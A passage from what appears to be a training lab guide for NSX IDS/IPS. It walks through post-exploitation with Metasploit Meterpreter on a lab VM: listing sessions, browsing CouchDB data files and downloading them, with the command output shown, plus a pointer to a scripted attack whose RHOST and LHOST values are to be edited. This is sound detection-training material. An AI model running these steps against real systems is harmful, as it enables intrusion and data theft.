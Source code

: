 5. You can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App2-APP-TIER VM**
    * Type **sessions -l** to see all established sessions
```console
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l
```
   * Type **sessions -i 5** to interact with the newly established **Meterpreter** session
   * You can now run commands as in the previous exercise to gain more information about the **App2-APP-TIER VM**, retrieve or destroy data. 
   * Type **ls /opt/couchdb/data** to see CouchDB database files   
   * Type **download /opt/couchdb/data** to see CouchDB database files
```console

meterpreter > ls /opt/couchdb/data
Listing: /opt/couchdb/data
==========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  ._replicator_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:51 -0500  ._users_design
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:48 -0500  .delete
40755/rwxr-xr-x   4096   dir   2020-07-22 11:33:51 -0500  .shards
100644/rw-r--r--  24764  fil   2020-07-22 15:14:44 -0500  _dbs.couch
100644/rw-r--r--  8368   fil   2020-07-22 11:28:51 -0500  _nodes.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _replicator.couch
100644/rw-r--r--  8374   fil   2020-07-22 11:28:51 -0500  _users.couch
40755/rwxr-xr-x   4096   dir   2020-07-22 11:28:52 -0500  shards

meterpreter > download /opt/couchdb/data/
[*] mirroring  : /opt/couchdb/data//.delete -> /.delete
[*] mirrored   : /opt/couchdb/data//.delete -> /.delete
[*] mirroring  : /opt/couchdb/data//._users_design -> /._users_design
[*] mirroring  : /opt/couchdb/data//._users_design/mrview -> /._users_design/mrview
[*] downloading: /opt/couchdb/data//._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view -> /._users_design/mrview/3e823c2a4383ac0c18d4e574135a5b08.view
...
```
This completes the lateral movement attack scenario. Now we will go back to NSX manager and investigate this attack. **Skip** the below step #6 - #8 if you have gone through the manaul attack steps above.

6. If you prefer not to manually go through this attack scenario, using the above steps, you can instead run the pre-defined attack script by running **sudo ./attack2.sh**. Before you execute the script, type **sudo nano attack2.rc** and replace the **RHOST** and **LHOST** IP addresses accordingly to match with the IP addresses in your environment. 
    * **RHOST** on line 3 should be the IP address of the App1-WEB-TIER VM 
    * **SUBNET** on line 6 (route add) should be the Internal Network subnet 
    * **LHOST** on line 9 should be the IP address of the External VM (this local machine) 
    * **RHOST** on line 10 should be the IP address of the App1-APP-TIER VM RHOST on line 13 should be the IP address of the App2-APP-TIER VM
> **Note**: This scripted attack does not upgrade shell sessions to meterpreter sessions nor does it interact with the sessions. To interact with the established sessions, but it will cause the same signatures to fire on the NSX IDS/IPS.
